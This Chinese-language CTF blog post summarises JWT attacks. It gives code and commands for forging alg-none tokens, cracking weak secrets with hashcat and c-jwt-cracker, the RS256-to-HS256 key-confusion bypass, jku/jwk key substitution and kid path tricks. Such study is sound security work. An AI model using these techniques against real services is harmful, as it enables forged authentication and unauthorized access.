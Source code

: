 ```yaml
---
layout: post
title: "JWT常见攻击方法"
date: 2021-09-01 15:30:51 +0800
description: ""
category: ctf/web
tags: []
---
```


[JSON Web Token（JWT）](https://bbs.ichunqiu.com/thread-59943-1-1.html)不需要在服务端去保留用户的认证信息或者会话信息，利于分布式应用的扩展，且天然防御CSRF攻击。

在线解码：https://jwt.io/

JWT一共由三部分组成，分别为头部(header),载荷(payload)，签名(signature)。

头部：`{"alg": "HS256", "typ": "JWT"}`

载荷：`{ "sub": "1234567890", "name": "John Doe","iat": 1516239022}`

签名：将base64编码后的header与base64编码后的payload通过符号`.`相连，然后通过header中声明的加密方式进行加盐secret组合加密。JWT最终的结果会将原始的base64字符串中的`/`换成`_`。并且去掉原本base64中用于补位的`=`。可以用python的库中`base64.urlsafe_b64encode`替换`base64encode`。

```
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  your-256-bit-secret
)
```

#### 密钥secret泄露

目录扫描，得到后缀为`.swp`的文件，恢复源码，源码中泄露JWT的密钥。

#### node的jsonwebtoken包存在漏洞，加密算法为none

```
payload = jwt.decode(jwtToken, verify=False)
jwt.encode(payload,None,algorithm=None)
```

#### 密钥secret复杂度较低，爆破

```
/mnt/hgfs/tools/web/c-jwt-cracker$./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.

hashcat -m 16500 hash.txt -a 3 -w 3 ?a?a?a?a?a?a
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMj...Fh7HgQ:secret
```

#### 将非对称加密修改为对称加密

RS256的签名流程是：`使用私钥对JWT签名，使用公钥验证JWT是否被篡改`

HS256的签名流程是：`使用密钥对JWT签名，使用同一个密钥验证JWT是否被篡改`

后台服务器使用`RS256`生成token，使用`HS256`替换`RS256`，结合公钥，绕过验证。

```
#后台代码，生成token
auth = jwt.encode({"auth": "guest"}, PRIVATE_KEY, algorithm="RS256")

#利用HS256代替RS256，需要注释掉Python27\Lib\site-packages\jwt\algorithms.py，注释第147至第151行
public = open('public.pem', 'r').read()
print(public)
print(jwt.encode({"data":"test"}, key=public, algorithm='HS256')).decode('utf-8')
```

#### [jku/jwk](jku/jwk)

JKU全称是`JWKSet URL`，它是头部的一个可选字段，用于指定链接到一组加密token密钥的URL。

利用[mkjwk](https://mkjwk.org/)申请一组key，更改JKU为我们自己的json，用私钥加密payload，服务器端用我们的JKU中指定的公钥解密payload。

jwk就是json web key，直接修改此值，即修改公钥。

#### kid-任意文件

控制kid读取`/dev/null`为key，`/dev/null`能够丢弃一切写入其中的数据。而读取它将立即得到一个EOF。伪造一个有效token，包含我们恶意的python序列化内容，进行RCE。

#### 辅助工具

```sh
D:\ctf\tools\web\jwt_tool>python3 jwt_tool.py jwt
```

